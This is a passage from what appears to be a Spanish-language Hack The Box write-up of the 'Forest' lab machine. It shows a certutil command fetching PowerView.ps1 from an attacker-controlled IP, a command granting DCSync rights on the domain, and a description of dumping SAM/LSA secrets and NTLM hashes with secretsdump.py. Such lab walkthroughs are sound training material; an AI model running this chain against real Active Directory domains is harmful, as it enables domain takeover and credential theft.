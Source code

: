 ![list](/assets/img/forest/Kali-2022-09-14-00-52-39.png){:.lead width="800" height="100" loading="lazy"}


```bash
certutil.exe -urlcache -split -f http://10.10.14.15/PowerView.ps1 PowerView.ps1
```


```bash
Import-Module .\PowerView.ps1
```


```powershell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,dc=local" -PrincipalIdentity axel123 -Rights DCSync
```


Una vez echo eso usaremos la herramienta [secretsdump.py], este script se encarga de realizar un volcado completo de los **SAM/LSA Secrets**, credenciales cacheadas, información sensible almacenada en el registro y los hashes NTLM del sistema.


[secretsdump.py]: https://thehackerway.com/2021/05/24/network-hacking-con-impacket-parte-3/#:~:text=Volcado%20de%20%C2%ABWindows%20Secrets%C2%BB%20con,los%20hashes%20NTLM%20del%20sistema.


![list](/assets/img/forest/Kali-2022-09-14-01-05-22.png){:.lead width="800" height="100" loading="lazy"}


[ASREPRoast]: https://www.hackplayers.com/2020/11/asreproast-o-as-rep-roasting.html#:~:text=El%20ASREPRoast%20es%20una%20t%C3%A9cnica,requiere%20pre%2Dautenticaci%C3%B3n%20en%20kerberos.
[GetNPUsers.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py
[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html